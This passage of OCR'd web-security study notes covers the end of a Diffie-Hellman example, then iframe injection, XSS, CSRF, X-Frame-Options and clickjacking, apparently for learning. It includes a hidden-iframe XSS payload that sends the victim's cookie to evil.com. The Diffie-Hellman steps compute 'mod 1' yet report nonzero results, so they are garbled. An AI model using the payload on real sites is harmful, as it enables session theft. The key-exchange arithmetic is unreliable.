 		3.      2^5 mod 1 = 11; 11 is public		2^7 mod 1 = 13; 13 is public

			11 is calculated and                     13 is calculated sent to RAM
			sent to SITA

		4.      RAM takes SITA's public                SITA takes RAM's public no 11 and raised to the power of 7 and passes in mod 
                        and raises it to the power of		function
			his private no

			13^5 mod 1 = 10				    11^7 mod 1 = 10

Both RAM and SITA have a common symmetric number now.

18. Iframe Injection

>An example would consist of an attacker convincing the user to navigate to a web page the attacker controls. The attacker's page then loads malicious JavaScript and an HTML iframe pointing to a legitimate site. Once the user enters credentials into the legitimate site within the iframe, the malicious JavaScript steals the keystrokes. Ex: This can be used to exploit a known bug in IE browsers. 

>XSS using Iframe Injection

		1. Attackers hosts a page evil.com

		2. A website example.com has a XSS vulnerable parameter q.

		3. The user is tricked to visit evil.com that contains an iframe, which makes request to 
		the flawed example.com

	<iframe style="position:absolute;top:-9999px" src="http://example.com/↵
    flawed-page.html?q=<script>document.write('<img src=\"http://evil.com/↵
    ?c='+encodeURIComponent(document.cookie)+'\">')</script>"></iframe>

		4. When the evil.com page is visited by the victim, the browser makes a request to example.com silently
		    using iframe. The request contains the xss vulnerable parameter and the payload is injected along.
		5. The payload says to make a request to evil.com along with the cookie of the example.com website.

>CSRF using iframe injection

Here the user doesn't knows that example.com was visited.

19. X-Frame-Options headers tells the browser not to allow loading of the webpage in an iframe, frame or object.

20. Clickjacking is an attack that occurs when an attacker uses a transparent iframe in a window to trick a user into
  clicking on a button or link, to another server in which they have an identical looking window.

	Example: For example, imagine an attacker who builds a web site that has a button on it that says
	"click here for
	a free iPod". However, on top of that web page, the attacker has loaded an iframe with your mail account, and
	lined up exactly the "delete all messages" button directly on top of the "free iPod" button. The victim tries
	to click on the "free iPod" button but instead actually clicked on the "delete all messages" button. In essence,
	the attacker has "hijacked" the user's click, hence the name "Clickjacking".
